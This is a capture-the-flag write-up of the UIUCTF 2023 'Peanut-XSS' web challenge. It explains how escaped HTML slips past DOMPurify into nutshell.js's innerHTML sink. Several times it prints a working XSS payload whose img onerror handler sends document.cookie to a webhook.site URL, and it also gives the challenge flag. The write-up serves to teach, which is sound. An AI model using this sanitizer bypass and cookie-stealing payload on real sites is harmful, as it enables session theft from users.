 # Peanut-XSS (UIUCTF 2023)

**Challenge category**: Web<br>
**Challenge description**: "Nutshell is pretty cool. Want to test it out?"<br>
**Challenge points**: 322<br>
**CTF date**: sab, 01 Lug. 2023, 00:00 UTC — lun, 03 Lug. 2023, 00:00 UTC<br>

## Context

This challenge is about a DOM XSS (and HTML obfuscation).

## Exploring the challenge

The only web page available uses <code>nutshell.js</code>, a tool used to create "expandable and embeddable explanations". This tool takes the specified HTML
inside the GET <code>nutshell</code> parameter and render all links starting with <code>:</code>. These links may refer to a Youtube video,
a section of a Wikipedia article or a section of any web page (even the same). To do this, the url specified in the <code>href</code> attribute must be of the following format: <code>http[s]?://domain_name/path#text</code>, where <code>text</code> is the text inside a section tag (<code><h\*></code>).
All the elements present in this section are shown inside the balloon produced.

![1](https://github.com/H31s3n-b3rg/CTF_Write-ups/assets/66698256/364d3adc-0c39-4743-a710-834dfdd3842d)

![2](https://github.com/H31s3n-b3rg/CTF_Write-ups/assets/66698256/dda8e0b1-8778-4ef7-ab3b-ad46a8a28358)

![3](https://github.com/H31s3n-b3rg/CTF_Write-ups/assets/66698256/f35b95c9-4ea8-4040-9697-bbe54f00409c)

A user can submit any URL to the admin bot. It doesn't fire any user events, so you need to define a possible XSS so that triggers automatically.

## Attack
The HTML defined inside the nutshell parameter goes through this code:
```javascript
const $ = document.querySelector.bind(document);
      const nutshell = new URLSearchParams(location.search).get("nutshell");
      if (nutshell) {
        preview.innerHTML = DOMPurify.sanitize(nutshell);
      } else {
        var editor = CodeMirror.fromTextArea($("#editor"), {
          mode: "HTMLmixed",
          lineNumbers: true
        });
        $("#submit").style.display = "";

        $("#submit").onclick = () => {
          location.search = `nutshell=${encodeURIComponent(editor.getValue())}`;
        };
      }
```
The HTML, before being parsed by nutshell.js, is DOMPurified.
Looking at the <code>nutshell.js</code>([[1]](#1)) we can see this piece of code:
```javascript
// Get an array of all links, filtered by if the text starts with a :colon
        let expandables = [...dom.querySelectorAll('a')].filter(
            link => (link.innerText.trim().indexOf(':')==0)
        );

        // Turn each one into an Expandable!
        expandables.forEach((ex)=>{

            // Style: closed Expandable
            ex.classList.add('nutshell-expandable');
            ex.setAttribute("mode", "closed");

            // Remove colon, replace with animated balls
            let linkText = document.createElement('span');
            linkText.innerHTML = ex.innerText.slice(ex.innerText.indexOf(':')+1);
            linkText.className = 'nutshell-expandable-text';
            let ballUp = document.createElement('span');
            ballUp.className = 'nutshell-ball-up';
            let ballDown = document.createElement('span');
            ballDown.className = 'nutshell-ball-down';
            ex.innerHTML = '';
            ex.appendChild(linkText);
            ex.appendChild(ballUp);
            ex.appendChild(ballDown);
...
```
These instructions are executed as soon as the script loads, so without the user having to click the expandable link. Accepts the text specified after the colon
inside the anchor tag and paste it inside a <code>span</code> element with innerHTML. This element is then added to the page. This is the sink where the malicious code goes.<br>
We can't just define the malicious HTML inside the anchor tag for two reasons: the innerText only refers to the text and the HTML defined inside the nutshell parameter is
purified by DOM Purify from the page itself. We should define text that can be interpreted as HTML, but isn't HTML. How? Obfuscation!
To trigger an XSS, a code like this: <code>\</span\>\<img src onerror='fetch("https://webhook.site/a2e16dd2-9690-4246-8c58-abf303c42a4b/? cookie= "+document.cookie)'/\>\<span\></code> should be written like this:
<code>\&lt;/span\&gt;\&lt;img src onerror='fetch("<span>https://webhook.site/a2e16dd2-9690-4246-8c58-abf303c42a4b/?cookie=</span> "+document.cookie)'/\&gt;\&lt;span\&gt;</code>. It works because the innerText property decodes the escaped HTML into real HTML and from this output a string containing valid HTML is then obtained, which is then inserted into innerHTML. So:
```HTML
<HTML>
<body>
    <h2>To write a section,</h2>
    <p>just use headings & paragraphs like this! Then…</p>
    <h2>To embed a section,</h2>
    <p>just make a link with :colon at the front… <a href="#ToWriteASection">:&lt;/span&gt;&lt;img src onerror=&#39;fetch(&quot;https://webhook.site/a2e16dd2-9690-4246-8c58-abf303c42a4b/?cookie=&quot;+document.cookie)&#39;/&gt;&lt;span&gt;</a>!</p>
</body>
</HTML>
```
If we click the preview button, the client is redirected to the same page but with the nutshell parameter containing the malicious HTML.
The XSS should be triggered. If we send the url of the page to the admin bot, we get its cookie (the flag).

![peanut_xss_flag](https://github.com/H31s3n-b3rg/CTF_Write-ups/assets/66698256/4a45e29f-728b-4ce3-9390-19aa51fafece)

Flag is <code>uiuctf{cr4ck1ng_0open_somE_nuTsh3lls}</code>

## References
<a id="1">[1]</a>
https://github.com/ncase/nutshell/blob/main/nutshell.js
